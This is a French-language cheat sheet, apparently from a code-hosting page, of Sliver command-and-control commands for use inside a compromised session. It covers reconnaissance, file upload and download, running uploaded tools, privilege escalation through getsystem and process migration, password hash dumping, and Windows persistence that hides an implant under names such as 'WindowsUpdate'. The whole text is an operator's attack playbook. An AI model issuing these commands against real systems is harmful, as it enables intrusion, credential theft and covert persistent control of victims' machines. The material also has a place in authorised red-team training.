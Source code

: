 ### Collecte d'informations
```bash
# Informations système
sliver (<session>) > whoami
sliver (<session>) > getuid
sliver (<session>) > pwd
sliver (<session>) > ls

# Informations réseau
sliver (<session>) > ifconfig
sliver (<session>) > netstat
sliver (<session>) > arp

# Processus en cours
sliver (<session>) > ps
sliver (<session>) > ps -T  # Avec threads
```

### Transfert de fichiers
```bash
# Upload d'un fichier
sliver (<session>) > upload /local/path/file.txt /remote/path/

# Download d'un fichier
sliver (<session>) > download /remote/path/file.txt /local/path/

# Upload et exécution
sliver (<session>) > execute /path/to/uploaded/tool.exe
```

### Élévation de privilèges
```bash
# Tentatives d'élévation automatique
sliver (<session>) > getsystem

# Injection de processus
sliver (<session>) > ps  # Trouver un processus cible
sliver (<session>) > migrate <PID>

# Dump des hashes
sliver (<session>) > hashdump
```

### Persistance
```bash
# Création d'un service Windows
sliver (<session>) > persistence service --name "WindowsUpdate" --path "C:\Windows\System32\implant.exe"

# Tâche programmée
sliver (<session>) > persistence task --name "SystemCheck" --path "C:\Windows\System32\implant.exe" --trigger logon

# Registre Windows
sliver (<session>) > persistence registry --key "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" --value "Update" --path "C:\Users\user\implant.exe"
```
